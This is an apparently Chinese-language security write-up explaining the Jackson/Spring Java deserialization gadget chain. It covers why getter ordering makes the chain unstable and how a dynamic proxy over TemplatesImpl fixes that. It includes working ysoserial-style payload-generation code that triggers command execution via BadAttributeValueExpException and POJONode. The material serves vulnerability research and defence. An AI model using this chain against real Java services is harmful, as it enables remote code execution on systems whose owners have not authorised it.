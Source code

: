 ### 无关方法调用屏蔽
`Jackson`是`JAVA`中使用广泛的一个处理`JSON`字符串的工具包，在`Jackson`的代码中存在一条完成的`JAVA`反序列化利用链。该链在实际使用过程中偶尔会执行错误导致不能成功进行命令执行，   
这源于该链执行过程中使用的`TemplatesImpl`对象的`getOutputProperties`方法调用不稳定，当 `getStylesheetDOM` 先于`getOutputProperties`被调用时将导致反序列化失败。  
在实践中我们发现当这出现这种情况时，无论你重新尝试多少次都不会再成功执行，除非目标系统重启。  
失败的原因在于`getStylesheetDOM`方法调用时`_sdom`的值为空，又因为`_sdom`是一个被`transient`修饰的瞬态变量并不参与`JAVA`原生的序列化与反序列化。
为了解决这一问题，在`Jackson`链的实践中使用了动态代理的特性：**使用反射获取一个代理类上的所有方法时，只能获取到其代理的接口方法**。  
具体的操作方法是创建目标类的代理类，代理其某一个接口，如果该接口定义了我们希望调用的方法而没有定义其他的不被希望调用的方法，那么在通过反射获取代理类的方法时只能获取到被代理接口中定义的方法。  
下面图片简要总结了`Jackson`链调用过程以及增加动态代理后程序的执行逻辑。     
![](007.png)  
以下代码是`ysoserial`中生成`Jackson`链`Payload`的代码。  
```java
public static void main(String[] args) throws Exception {
		// [0]
        CtClass ctClass = ClassPool.getDefault().get("com.fasterxml.jackson.databind.node.BaseJsonNode");
        CtMethod writeReplace = ctClass.getDeclaredMethod("writeReplace");
        ctClass.removeMethod(writeReplace);
        ctClass.toClass();
		// [1]
        Object templates = Gadgets.createTemplatesImpl("calc");
		// [2]
        AdvisedSupport advisedSupport = new AdvisedSupport();
        advisedSupport.setTarget(templates);
        Constructor constructor = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy").getConstructor(AdvisedSupport.class);
        constructor.setAccessible(true);
        InvocationHandler handler = (InvocationHandler) constructor.newInstance(advisedSupport);
        Object proxy = Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), new Class[]{Templates.class}, handler);
		// [3]
        POJONode node = new POJONode(proxy);
        BadAttributeValueExpException val = new BadAttributeValueExpException(null);
        setFieldValue(val, "val", node);
		// [4]
        byte[] serialize = Serializer.serialize(val);
        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(serialize);
        ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);
        objectInputStream.readObject();
    }
```
在标记代码块[3]中使用了`BadAttributeValueExpException` 作为反序列化的起始点，`BadAttributeValueExpException`是一个比较常用的类，其`readObject`方法调用会触发`val`属性值的`toString`方法。 
将`val`设置为一个`POJONode`对象，其`toString`方法定义在父类`BaseJsonNode`方法中。  
```java
public String toString() {
        return InternalNodeMapper.nodeToString(this);
    }
```
`nodeToString`方法将调用`STD_WRITTER`的`writeValueAsString`方法，该方法在调用过程中会通过反射的方式尝试获取`POJONode`方法实例化时传入参数对象的所有`getter`方法，然后按照获取顺序依次调用。
```java
public static String nodeToString(BaseJsonNode n) {
        try {
            return STD_WRITER.writeValueAsString(_wrapper(n));
        } catch (IOException var2) {
            throw new RuntimeException(var2);
        }
    }
```
`getter`方法的获取顺序是随机的并且会被缓存机制缓存，当`StylesheetDOM`的获取在`OutputProperties`之前时便会因为`_sdom`为空导致程序异常退出。  
![](001.png)  